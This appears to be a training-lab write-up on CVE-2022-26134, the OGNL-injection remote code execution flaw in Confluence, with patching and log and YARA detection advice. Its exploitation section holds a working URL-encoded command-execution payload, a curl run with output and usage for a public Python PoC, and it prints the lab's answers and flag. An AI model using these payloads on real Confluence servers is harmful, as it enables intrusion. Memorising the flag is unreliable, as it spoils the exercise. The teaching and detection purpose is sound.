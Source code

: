 # Intro
On May the 30th, 2022, an organisation named Volexity identified an un-authenticated RCE vulnerability (scoring 9.8 on NIST) within Atlassian's [Confluence Server and Data Center editions](https://www.atlassian.com/software/confluence).

Confluence is a collaborative documentation and project management framework for teams. Confluence helps track project status by offering a centralised workspace for members.

The following versions of Confluence are vulnerable to this CVE:  

- 1.3.0 -> 7.4.17
- 7.13.0 -> 7.13.7
- 7.14.0 -> 7.14.3 
- 7.15.0 -> 7.15.2 
- 7.16.0 -> 7.16.4
- 7.17.0 -> 7.17.4
- 7.18.0 -> 7.18.1 

You can view the NIST entry for CVE-2022-26134 [here](https://nvd.nist.gov/vuln/detail/CVE-2022-26134).

---

# Deploy the Vulnerable Machine

Now it is time to practice this vulnerability! Deploy the machine attached to this task, and craft different payloads to answer the questions below.

Note: Please wait for a **minimum of seven minutes** for this machine to start up **before attacking**. You can verify the machine is ready for attack once the login page on the following URL loads: [HTTP://MACHINE_IP:8090](HTTP://MACHINE_IP:8090). In the meanwhile, proceed with the rest of the tasks.[](HTTP://MACHINE_IP:8090)

  

![A screenshot displaying two input text fields for the user's name and password on the Confluence login web panel.](https://tryhackme-images.s3.amazonaws.com/user-uploads/5de96d9ca744773ea7ef8c00/room-content/ad97fbaca5c8bc6e2e8bb610ba8f9eb6.png)

_The Confluence login panel on [HTTP://MACHINE_IP:8090](http://machine_ip:8090/)._

---

# Explaining the Vulnerability

This CVE uses a vulnerability within the OGNL (Object-Graph Navigation Language) expression language for Java (surprise, surprise ... it's Java). OGNL is used for getting and setting properties of Java objects, amongst many other things.

For example, OGNL is used to bind front-end elements such as text boxes to back-end objects and can be used in Java-based web applications such as Confluence. We can see how OGNL is used in the screenshot below. Values are input to a web form, where these values will be stored into objects within the application:

![A web page with questions and a input text field to the right of each question, displaying how values input into a web form can be stored in the back-end using OGNL](https://tryhackme-images.s3.amazonaws.com/user-uploads/5de96d9ca744773ea7ef8c00/room-content/e6faa8adfa06970699db20a2ce49dfea.png)

_Thanks to Journaldev.com for this example of OGNL in use._

We can abuse the fact that OGNL can be modified; we can create a payload to test and check for exploits.

---

# Exploit Detection and Patching

## Patching

Atlassian has released an advisory for their products affected by this CVE, which you can read [here](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html). To resolve the issue, you need to upgrade your Confluence version. The suggested list at the time of publication is:  

- 7.4.17
- 7.13.7
- 7.14.3
- 7.15.2
- 7.16.4
- 7.17.4
- 7.18.1

## Detection - Log Files

Confluence is an Apache Tomcat server which has logging located in `/opt/atlassian/confluence/logs`. You can use commands like grep to search for HTTP GET requests of payloads that are using Java runtime to execute commands. For example:

- `grep -R "/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22"` in **catalina.out**

## Detection - YARA

If you have Yara installed on the server running Confluence, Volexity (the finders of the vulnerability) has created the following Yara rule for you to use, located [here](https://github.com/volexity/threat-intel/blob/main/2022/2022-06-02%20Active%20Exploitation%20Of%20Confluence%200-day/indicators/yara.yar).

Unfamiliar with Yara? Check out our Yara room [here](https://tryhackme.com/room/yara).

---

# Exploitation

We can abuse the fact that OGNL can be modified; we can create a payload to test and check for exploits.

In order to exploit this vulnerability within OGNL, we need to make an HTTP GET request and place our payload within the URI. For example, we can instruct the Java runtime to execute a command such as creating a file on the server: `${@java.lang.Runtime@getRuntime().exec("touch /tmp/thm/")}/`  .

This will need to be URL encoded, like the following snippet below. You can use [this](https://www.urlencoder.org/) website to help URL encode your payloads (**note** that your `curl` payload will need to end in a trailing `/` and not `$2F`):

Creating a temporary file on the server to prove vulnerability

```output
cmnatic@thm-cve-2022-26134:~$ curl -v http://localhost:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20
/tmp/thm%22%29%7D/ 
*   Trying 127.0.0.1:8090... 
* TCP_NODELAY set 
* Connected to localhost (127.0.0.1) port 8090 (#0) 
* GET /%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/thm%22%29%7D/ HTTP/1.1 
* Host: localhost:8090 
* User-Agent: curl/7.68.0 
* Accept: */* > 
* Mark bundle as not supporting multiuse 
* < HTTP/1.1 302 
* < X-ASEN: SEN-L18512764 
* < X-Confluence-Request-Time: 1656845716316 
* < Set-Cookie: JSESSIONID=761E9FA42B315225C0B84B0BAC92B2B3; Path=/; HttpOnly 
* < X-XSS-Protection: 1; mode=block 
* < X-Content-Type-Options: nosniff 
* < X-Frame-Options: SAMEORIGIN 
* < Content-Security-Policy: frame-ancestors 'self' 
* < Location: /login.action?os_destination=%2F%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch+%2Ftmp%2Fthm%22%29%7D%2Findex.action&permissionViolation=true 
* < Content-Type: text/html;charset=UTF-8 
* < Content-Length: 0 
* < Date: Sun, 03 Jul 2022 10:55:17 GMT 
* < * Connection #0 to host localhost left intact 
* cmnatic@thm-cve-2022-26134:~$
```

 
When looking at the server, we can see that it is vulnerable:

Creating a temporary file on the server to prove vulnerability

```php
cmnatic@thm-cve-2022-26134:~$ ls /tmp hsperfdata_confluence thm snap.lxd
```

### Python

There are a few working PoC exploits out there. For this room, I will be demonstrating Samy Younsi (Mwqda)'s PoC written in Python and hosted on [GitHub](https://github.com/Nwqda/CVE-2022-26134).

First, we need to download the PoC to our host. The PoC has been attached as a zip to this task. If you are using the THM AttackBox, you can find the PoC in /root/Rooms/CVE2022-26134

After navigating to the source code, let's execute the script. Replace "COMMAND" with the command you wish to execute (Remember to use quotation marks when running commands that have special characters and such.)

1. `python3.9 cve-2022-26134.py HTTP://10.10.193.215:8090 COMMAND`

---

**Answer the questions below**

_Download the proof of concept for this task! If you are using the AttackBox, this is already done for you, where it can be found in /root/Rooms/CVE2022-26134._

_Ensure the login panel on [HTTP://10.10.193.215:8090](HTTP://10.10.193.215:8090) loads before proceeding._

_Craft a payload to identify what user the application is running as. What is the user?_

**confluence**

_Finally, craft a payload to retrieve the flag stored at  /flag.txt on 10.10.193.215. What is the flag?_

**THM{OGNL_VULN}**

---
### Conclusion

Additional Reading Material:

- [NIST National Vulnerability Database Entry (CVE-2022-26134)](https://nvd.nist.gov/vuln/detail/CVE-2022-26134)
- [Hunting for Confluence RCE [CVE-2022–26134]](https://medium.com/@th3b3ginn3r/hunting-for-cve-2022-26134-confluence-rce-on-linux-server-ae9ce0176b4a)
- [Exploring and remediating the Confluence RCE](https://www.datadoghq.com/blog/confluence-vulnerability-overview-and-remediation/)
- [What is OGNL Injection?](https://www.contrastsecurity.com/glossary/ognl-injection-ognl)
- [Citrix: Guidance for reducing unauthenticated OGNL injection RCE](https://www.citrix.com/blogs/2022/06/09/reducing-unauthenticated-ognl-injection-security-vulnerability-risk-cve-2022-26134/)
- [Exploring OGNL Injection in Apache Struts](https://pentest-tools.com/blog/exploiting-ognl-injection-in-apache-struts)

---

**Completed:** _12:55 2024-07-18_ 

